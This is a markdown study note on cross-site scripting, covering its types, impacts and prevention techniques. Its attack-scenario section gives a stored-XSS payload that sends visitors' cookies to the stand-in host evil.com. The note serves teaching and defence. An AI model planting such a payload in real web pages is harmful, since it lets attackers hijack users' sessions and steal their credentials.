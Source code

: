 # Cross-site Scripting (XSS)

---

## Overview

**Cross-site Scripting (XSS)** is a vulnerability that allows attackers to inject malicious scripts into web pages viewed by others. It enables attackers to execute scripts in the context of the victim’s browser.

---

## How XSS Works

- A vulnerable web application accepts user input and reflects it back to users without proper sanitization or encoding.
- The injected script runs in the browser of anyone viewing the affected content.

**Example**:
```html
<script>alert('Hacked');</script>
```

---

## Types of XSS

| Type             | Description |
|------------------|-------------|
| **Stored XSS**   | The malicious script is permanently stored on the server (e.g., in a comment or message) and served to users. |
| **Reflected XSS**| The payload is in the request (e.g., a URL) and immediately reflected in the response. |
| **DOM-based XSS**| The vulnerability exists in client-side JavaScript that processes data insecurely. |

---

## Impacts of XSS

- **Session hijacking**
- **Credential theft**
- **Malicious redirection**
- **Data exfiltration**
- **Drive-by downloads**

---

## Prevention Techniques

- **Input Validation**
  - Reject suspicious or unexpected input.
- **Output Encoding**
  - Encode output data to prevent interpretation as code (e.g., use `&lt;` instead of `<`).
- **Content Security Policy (CSP)**
  - Restrict sources of executable scripts.
- **Use Secure APIs**
  - Prefer APIs that automatically sanitize data (e.g., `textContent` instead of `innerHTML`).
- **Sanitization Libraries**
  - Use trusted libraries (e.g., DOMPurify) to sanitize input.

---

## Example Attack Scenario

1. Attacker submits a comment with a script:
   ```html
   <script>document.location='http://evil.com/cookie?c=' + document.cookie</script>
   ```
2. Script is saved and shown to other users.
3. Victim’s browser runs the script, sending cookies to the attacker.

---

## Summary

Cross-site Scripting is a widespread vulnerability with serious consequences. Proper input validation, output encoding, and secure development practices are essential to prevent it.

---
